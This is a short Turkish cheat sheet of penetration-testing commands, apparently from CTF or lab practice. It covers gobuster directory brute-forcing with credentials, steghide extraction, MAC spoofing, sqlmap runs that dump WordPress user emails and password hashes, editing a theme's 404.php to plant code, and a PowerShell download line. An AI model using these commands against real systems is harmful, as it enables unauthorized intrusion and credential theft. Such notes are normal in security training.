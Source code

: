 gobuster dir -U < User > -P < Şifre > -u < URL > -w < Wordlist > ---> Id ve Şifre verilmesi gereken yer için.
 
# StegHide Kullanımı #

steghide info < Img ismi > ---> Resimde saklı herhangi bir dosya var mı ?

steghide extract -sf < Img ismi > ---> Resimde saklı dosya varsa çıkart.

# Mac Changer #

ifconfig eth0 down ---> ETH0 bağlantısını keser.

ifconfig eth0 hw ether 00:11:22:33:44:55 ---> İstediğin MAC adresini atar.

ifconfig eth0 up ---> ETH0 bağlantısını kurar.
 
# SQL Map #

sqlmap -r request --dbs --batch ---> Database ve kullanıcıları çıkarır.

sqlmap -r request --dbs --batch -D wordpress --tables ---> Database'de ki tabloları gösterir.

sqlmap -r request --dbs --batch -D wordpress -T wp_users --columns ---> Database'de ki kolonları gösterir.

sqlmap -r request --dbs --batch -D wordpress -T wp_users -C user_email,user_pass --sql-query "Select user_email,user_pass from wp_users" ---> Database'den istediğimiz bilgileri çekmek.

sqlmap -r request --dump -D wordpress -T wp_users ---> Wordpress kullanılmışsa Wordpress kullanıcılarını çekme.
 
# WP Example #
http://10.10.85.123/wordpress/wp-content/themes/twentytwenty/404.php ---> Wordpress dosyalarında 404.php'de değişiklik yaptığında gideceğin yer.
 
# Microsoft Downloader #
Invoke-WebRequest <resource_to_download> -outfile <output_file_name>
 
# GoBuster #
gobuster dir -u 10.10.111.215 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt ---> Basit kullanım

gobuster dir -u 10.10.150.189 -w /usr/share/wordlists/dirb/common.txt ---> Basit kullanım

gobuster dir -u 10.10.150.189 -w /usr/share/wordlists/dirb/common.txt -x php,txt,html ---> php,txt,html uzantılıları da arama

gobuster dir -U joker -P hannah -u http://10.10.9.219:8080/ -x bak,old,tar,gz,tgz,zip,7z -w /usr/share/wordlists/dirb/common.txt ---> user ve password girerek bak,old,tar,gz,tgz,zip,7z uzantıları arama.
